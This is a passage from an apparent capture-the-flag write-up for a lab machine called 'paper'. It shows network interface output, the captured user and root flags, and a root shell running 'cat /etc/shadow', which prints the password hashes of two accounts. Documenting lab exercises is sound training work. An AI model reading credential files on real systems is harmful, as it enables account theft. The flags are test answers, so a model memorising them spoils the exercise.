    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:68:99 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.143/23 brd 10.10.11.255 scope global noprefixroute eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:6899/64 scope global dynamic mngtmpaddr
       valid_lft 86398sec preferred_lft 14398sec
    inet6 fe80::250:56ff:feb9:6899/64 scope link
       valid_lft forever preferred_lft forever
3: virbr0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether 52:54:00:9b:e7:f7 brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.1/24 brd 192.168.122.255 scope global virbr0
       valid_lft forever preferred_lft forever
4: virbr0-nic: <BROADCAST,MULTICAST> mtu 1500 qdisc fq_codel master virbr0 state DOWN group default qlen 1000
    link/ether 52:54:00:9b:e7:f7 brd ff:ff:ff:ff:ff:ff
c268c00c67c62ae24f54749c8469fd03
```


# Trophy


>[!success]
>**User.txt**
>83482a8c2adcc4a365993c3653dc9517

>[!success]
>**Root.txt**
>c268c00c67c62ae24f54749c8469fd03

**/etc/shadow**

```bash
[root@paper shm]# cat /etc/shadow | grep '\$'
root:$6$rfCS6Tb3sgIjkTux$UhBHq5wWPncgtVnltzm3Squ9KBcX3/9k0y6o8AG6lNSKOobHatUWFzPS1J8uuh/QML6kyhZ10ngXa5nCBLDkL.:18811:0:99999:7:::
dwight:$6$xVlcDig.sohk9jK0$BZEhwP6SZytZTTAMTqjb35j02yMHq/F4jl3WPwqFCtsf0Cbce4pqo3PS8OGXiJdXGE/C4Y4yQZAmiT60wt9OQ/:18811:0:99999:7:::
```